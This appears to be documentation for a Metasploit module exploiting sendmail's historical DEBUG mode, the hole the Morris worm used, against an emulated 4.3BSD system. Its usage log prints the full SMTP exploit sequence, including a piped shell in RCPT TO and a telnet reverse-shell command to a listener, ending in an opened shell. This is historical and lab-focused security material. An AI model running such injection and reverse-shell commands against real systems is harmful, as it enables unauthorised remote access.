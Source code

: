 ## Introduction

This module exploits `sendmail`'s well-known historical debug mode to
escape to a shell and execute commands in the SMTP `RCPT TO` command.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

## Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Targets

```
Id  Name
--  ----
0   @(#)version.c       5.51 (Berkeley) 5/2/86
```

## Options

**RPORT**

Set this to the target port. The default is 25 for `sendmail`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a Unix command payload. Currently, only `cmd/unix/reverse`
and `cmd/unix/generic` are supported.

## Usage

```
msf5 exploit(unix/smtp/morris_sendmail_debug) > options

Module options (exploit/unix/smtp/morris_sendmail_debug):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  127.0.0.1        yes       The target address range or CIDR identifier
   RPORT   25               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)version.c       5.51 (Berkeley) 5/2/86


msf5 exploit(unix/smtp/morris_sendmail_debug) > run

[*] Started reverse TCP double handler on 192.168.1.5:4444
[*] 127.0.0.1:25 - Connecting to sendmail
[*] 127.0.0.1:25 - Enabling debug mode and sending exploit
[*] 127.0.0.1:25 - Sending: DEBUG
[*] 127.0.0.1:25 - Sending: MAIL FROM:<GmWE2vWEViR4CLhBWOOOUVSMjJEr2NymDveA>
[*] 127.0.0.1:25 - Sending: RCPT TO:<"| sed '1,/^$/d' | sh; exit 0">
[*] 127.0.0.1:25 - Sending: DATA
[*] 127.0.0.1:25 - Sending:  PATH=/bin:/usr/bin:/usr/ucb:/etc
[*] 127.0.0.1:25 - Sending: export PATH
[*] 127.0.0.1:25 - Sending: sh -c '(sleep 4197|telnet 192.168.1.5 4444|while : ; do sh && break; done 2>&1|telnet 192.168.1.5 4444 >/dev/null 2>&1 &)'
[*] 127.0.0.1:25 - Sending: .
[*] 127.0.0.1:25 - Sending: QUIT
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zqhqKJD7trW0E0Lp;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "zqhqKJD7trW0E0Lp\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.5:64337) at 2018-10-20 14:08:03 -0500
[!] 127.0.0.1:25 - Do NOT type `exit', or else you may lose further shells!
[!] 127.0.0.1:25 - Hit ^C to abort the session instead, please and thank you

whoami
daemon
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```

